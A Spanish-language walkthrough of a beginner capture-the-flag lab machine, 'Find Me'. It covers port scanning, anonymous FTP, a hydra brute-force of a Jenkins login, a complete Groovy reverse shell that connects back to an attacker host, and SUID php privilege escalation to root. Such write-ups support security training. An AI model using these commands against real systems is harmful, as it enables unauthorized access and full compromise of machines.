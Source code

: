 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# Find Me

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.91
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open 192.168.1.91 --min-rate 5000 -n
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 21** perteneciente al **servicio FTP, puerto 22** perteneciente al **servicio SSH,** el **puerto 80** perteneciente al **servicio HTTP** y el **puerto 8080** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,22,80,8080 -v 192.168.1.91
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Ingresamos la IP y nos encontramos la página de por defecto de **Apache**.&#x20;

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ingresamos la IP pero a través del **puerto 8080** y nos encontramos con el panel de login de **Jenkins**.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al realizar el escaneo encontramos que tenemos acceso anónimo a través de FTP por lo que indagaremos si hay algo relevante. Vemos una nota de `ayuda.txt` por lo que nos la descargamos.

```bash
ftp 192.168.1.91
ls
get ayuda.txt
```

Al mostrar el contenido encontramos un usuario llamado **geralt**. Nos da pistas de lo que recuerda por lo que creamos un diccionario con las distintas posibilidades a tavés de **Crunch**.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
crunch 5 5 -t p@@@a -o diccionario.txt
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Ingresamos el usuario descubierto con una contraseña cualquiera y al inspeccionar la pagina en **Network** cogemos la distinta informacion para realizar el ataque de fuerza bruta.

```bash
hydra -l geralt -P diccionario.txt 192.168.1.91 -s 8080 http-post-form "/j_spring_security_check:j_username=^USER^&j_password=^PASS^&from=&Submit=:c=/login:Invalid username or password" -f -V
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Iniciamos sesión en **Jenkins** con las credenciales.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Seleccionamos **manage jenkin**s y luego **script console** que nos permite enviar una reverse shell mediante **Groovy** mediante nos ponemos en escucha.

```bash
String host="192.168.1.50";int port=443;String cmd="sh";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

```bash
nc -nvlp 443
```

<figure><img src="../../.gitbook/assets/image (751).png" alt=""><figcaption></figcaption></figure>

Hacemos tratamiento de la TTY. Nos cambiamos de usuario a **geralt**.

<figure><img src="../../.gitbook/assets/image (754).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. Requiere contraseña.&#x20;

Buscamos archivos con permisos **SUID**.

```bash
find / -perm -4000 -ls 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (756).png" alt=""><figcaption></figcaption></figure>

Buscamos en la página [GTFObins](https://gtfobins.github.io/gtfobins/php/).

```bash
/usr/bin/php8.2 -r "pcntl_exec('/bin/sh', ['-p']);"
```

<figure><img src="../../.gitbook/assets/image (757).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**.&#x20;

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
